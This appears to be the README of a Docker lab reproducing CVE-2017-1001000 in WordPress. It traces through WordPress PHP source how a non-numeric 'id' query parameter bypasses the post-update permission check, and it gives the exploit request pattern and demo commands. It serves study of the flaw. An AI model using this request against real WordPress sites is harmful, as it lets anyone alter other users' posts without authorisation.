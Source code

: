 # docker-wordpress-content-injection

https://www.cvedetails.com/cve/CVE-2017-1001000/

## Install

```bash
# Launch two containers: mysql and wordpress
docker-compose up

# In another terminal
# Get the id of the mysql container
docker ps | grep dockerwordpresscontentinjection_db
./load_db.sh <mysql-container-id>
```

* Test the API: `./get_posts.sh`

# Exploit

The requests are handled in `wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php`
[line 80](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L80).

The route needs a post id in the url:

```bash
./get_post.sh 10
```

If the id is not numeric, the API returns an error because the url does not match the regex:

```bash
./get_post.sh 10ABC
```

If a query param `id` is specified, its value overrides the one in the url body:

```bash
./get_post_query_param.sh 10 11
# The obtained id is 11 and not 10
```

**But if the query param id is not numeric, no errors are raised:**

```bash
./get_post_query_param.sh 10 11ABC
```

Now, let's take the request `POST /wp-json/wp/v2/posts/10?id=11ABC` and look at
the route to [update a post](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93):

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93

register_rest_route( $this->namespace, '/' . $this->rest_base . '/(?P<id>[\d]+)', array(
    // ... 
    array(
        'methods'             => WP_REST_Server::EDITABLE,
        'callback'            => array( $this, 'update_item' ),
        'permission_callback' => array( $this, 'update_item_permissions_check' ),
        'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
    ),
    // ...
) );
```

Before performing the update, the function [`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item_permissions_check`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589)
is called:

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589

public function update_item_permissions_check( $request ) {
    // Because we sent the id in the query param, $request['id'] == "11ABC"
    $post = get_post( $request['id'] );
    $post_type = get_post_type_object( $this->post_type );

    // Surprisingly, if $post == null, the function does not return an error
    if ( $post && ! $this->check_update_permission( $post ) ) {
        return new WP_Error( 'rest_cannot_edit', __( 'Sorry, you are not allowed to edit this post.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

**Surprisingly, if `$post` is null, the function does not return an error.** Let's
give a look at
[`wp-includes/post.php:get_post`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/post.php#L515):

```php
// wp-includes/post.php#L515

function get_post( $post = null, $output = OBJECT, $filter = 'raw' ) {
    // $post == "11ABC"
    if ( empty( $post ) && isset( $GLOBALS['post'] ) )
        // ...
    if ( $post instanceof WP_Post ) {
        // ...
    } elseif ( is_object( $post ) ) {
        // ...
    } else { // As $post is a string, we enter here
        $_post = WP_Post::get_instance( $post );
    }
    // Because `WP_Post::get_instance( $post );` will return `false` (see explanations below)
    // the function returns `null`
    if ( ! $_post )
        return null;
    // ...
}
```

[`wp-includes/class-wp-post.php:WP_Post::get_instance`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/class-wp-post.php#L210)
will return `false` as `$post_id` is not numeric:

```php
// wp-includes/class-wp-post.php#L210

public static function get_instance( $post_id ) {
    global $wpdb;
    if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
        return false;
    }
    // ...
}
```

So `get_post` will return `null` and the permission check will pass. Then, the function
[`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L622)
will be called with `$request['id'] = "11ABC"`:

```php
public function update_item( $request ) {
    // $request['id'] == "11ABC"
    $id = (int) $request['id'];
    // $id == 11
    // Here, `get_post` does not return `null`
    // Then, we do not enter the `if` which returns an error
    $post = get_post( $id );
    if ( empty( $id ) || empty( $post->ID ) || $this->post_type !== $post->post_type ) {
        return new WP_Error( 'rest_post_invalid_id', __( 'Invalid post ID.' ), array( 'status' => 404 ) );
    }
    // The item will be updated
    // ...
}
```

This time, the function `get_post` is called **with the id cast as an integer**. Due
to PHP [type-juggling](http://php.net/manual/en/language.types.type-juggling.php),
the variable `$id` will be equal to `11`. So `get_post` won't return `null` and `update_item`
won't return an error. **Because we have already
passed the permission check step**, the post with id `11` will be updated
even if it belongs to another user.

To conclude, it is possible for anyone to update any post of id `N` with a request such
as `POST /wp-json/wp/v2/posts/1984?id=N_then_non_numeric_chars`.

## Demo

Make sure Wordpress is running:

```bash
docker-compose up
```

Get the posts of author1:

```bash
./get_posts.sh author1
```

Update a post:

```bash
./update_post.sh 14 mysupercontent author1
# It works
```

Get the posts of author2:

```bash
./get_posts.sh author2
```

Update a post of author2 with author1:

```bash
./update_post.sh 17 mysupercontent author1
# Error: Sorry, you are not allowed to edit this post.
```

Update a post of author2 with author1 and a malicious url:

```bash
./exploit.sh 17 mysupercontent author1
# It works
```
